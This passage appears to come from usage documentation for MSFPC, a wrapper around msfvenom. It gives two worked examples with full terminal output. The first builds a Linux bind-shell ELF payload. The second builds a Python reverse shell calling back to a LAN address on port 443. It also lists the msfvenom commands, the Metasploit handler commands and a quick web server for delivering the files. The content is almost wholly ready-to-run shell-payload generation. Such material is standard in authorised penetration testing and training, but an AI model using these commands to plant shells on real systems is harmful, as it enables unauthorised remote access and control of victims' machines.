 
## Example \#2 (Linux Format, Fully Automated Using Manual Interface and Port)

```bash
$ ./msfpc.sh elf bind eth0 4444 verbose
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)
 [i]        IP: 192.168.103.142
 [i]      PORT: 4444
 [i]      TYPE: linux (linux/x86/shell/bind_tcp)
 [i]     SHELL: shell
 [i] DIRECTION: bind
 [i]     STAGE: staged
 [i]    METHOD: tcp
 [i]       CMD: msfvenom -p linux/x86/shell/bind_tcp -f elf \
  --platform linux -a x86 -e generic/none  LPORT=4444 \
  > '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] linux shell created: '/root/linux-shell-staged-bind-tcp-4444.elf'

 [i] File: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, corrupted section header size
 [i] Size: 4.0K
 [i]  MD5: eed4623b765eea623f2e0206b63aad61
 [i] SHA1: 0b5dabd945ef81ec9283768054b3c22125aa9185

 [i] MSF handler file: '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [i] Run: msfconsole -q -r '/root/linux-shell-staged-bind-tcp-4444-elf.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```


## Example \#3 (Python Format, Interactive IP Menu)

```bash
$ msfpc stageless cmd py tcp
 [*] MSFvenom Payload Creator (MSFPC v1.4.4)

 [i] Use which interface - IP address?:
 [i]   1.) eth0 - 192.168.103.142
 [i]   2.) lo - 127.0.0.1
 [i]   3.) wan - 31.204.154.174
 [?] Select 1-3, interface or IP address: 1

 [i]   IP: 192.168.103.142
 [i] PORT: 443
 [i] TYPE: python (python/shell_reverse_tcp)
 [i]  CMD: msfvenom -p python/shell_reverse_tcp -f raw \
  --platform python -e generic/none -a python LHOST=192.168.103.142 LPORT=443 \
  > '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] python shell created: '/root/python-shell-stageless-reverse-tcp-443.py'

 [i] MSF handler file: '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [i] Run: msfconsole -q -r '/root/python-shell-stageless-reverse-tcp-443-py.rc'
 [?] Quick web server (for file transfer)?: python2 -m SimpleHTTPServer 8080
 [*] Done!
$
```
